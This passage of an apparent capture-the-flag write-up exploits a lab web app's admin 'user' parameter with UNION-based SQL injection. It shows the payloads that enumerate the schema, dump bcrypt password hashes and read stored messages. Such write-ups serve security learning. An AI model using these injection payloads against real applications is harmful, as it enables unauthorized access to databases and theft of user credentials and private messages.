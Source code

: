 
It replied `User 8.0.21`...

At this point you can get anything from that UNION-Based SQLi

database

`http://10.10.228.67/admin?user=0 union select database(),2,3,4`

tables

`0 union select group_concat(table_name),database(),3,4 from information_schema.tables where table_schema='marketplace'`

columns

`10.10.228.67/admin?user=0 union select group_concat(column_name),database(),3,4 from information_schema.columns where table_name='users'`

So for the basic informations

```
database = marketplace
version = 8.0.21
tables = users , items, messages
columns = id,isAdministrator,password,username
```
Now we all would go straiht to `password` column

```
$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,

$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,

$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,

$2b$10$daomPlspz0EKa7wbtEQfeu1DGUWIiLxejvz/i2s3dMkE4SAxoq.Da

```
(remove the concat colon separator though)

If you didnt recognize it (with that ugly $2b$) its `BCRYPT`

your time-wasting nightmare! crackin those would take years for me

if the hash was even actually in rockyou.txt

So I went for help and you can actually dig deeper in the database

For the columns you go

`10.10.228.67/admin?user=0 union select group_concat(column_name),database(),3,4 from information_schema.columns where table_name='messages'`

and get `id,is_read,message_content,user_from,user_to`

So you concat that with `10.10.228.67/admin?user=0 union select group_concat(id,message_content),database(),3,4 from messages`

And bingo!
